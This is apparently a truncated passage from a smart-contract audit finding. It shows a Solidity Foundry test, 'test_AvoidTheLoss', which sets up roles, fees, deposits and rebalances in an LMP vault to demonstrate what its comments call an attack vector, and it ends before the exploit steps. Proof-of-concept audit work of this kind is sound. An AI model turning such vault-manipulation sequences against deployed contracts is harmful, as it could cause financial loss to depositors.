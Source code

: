 ```solidity
function test_AvoidTheLoss() public {

// for simplicity sake, i'll be assuming vault keeps nothing idle

// as it does not affect the attack vector in any ways

_accessController.grantRole(Roles.SOLVER_ROLE, address(this));

_accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

address feeSink = vm.addr(555);

_lmpVault.setFeeSink(feeSink);

_lmpVault.setPerformanceFeeBps(2000); // 20%

address alice = address(789);

uint initialBalanceAlice = 1000;

// User is going to deposit 1000 asset

_asset.mint(address(this), 1000);

_asset.approve(address(_lmpVault), 1000);

uint shareBalUser = _lmpVault.deposit(1000, address(this));

_underlyerOne.mint(address(this),500);

_underlyerOne.approve(address(_lmpVault),500);

_lmpVault.rebalance(

address(_destVaultOne),

address(_underlyerOne),

500,

address(0),

address(_asset),

1000

);

_asset.mint(alice,initialBalanceAlice);

vm.startPrank(alice);

_asset.approve(address(_lmpVault),initialBalanceAlice);

uint shareBalAlice = _lmpVault.deposit(initialBalanceAlice,alice);

vm.stopPrank();

// rebalance to 2nd vault

_underlyerTwo.mint(address(this), 1000);

_underlyerTwo.approve(address(_lmpVault),1000);
```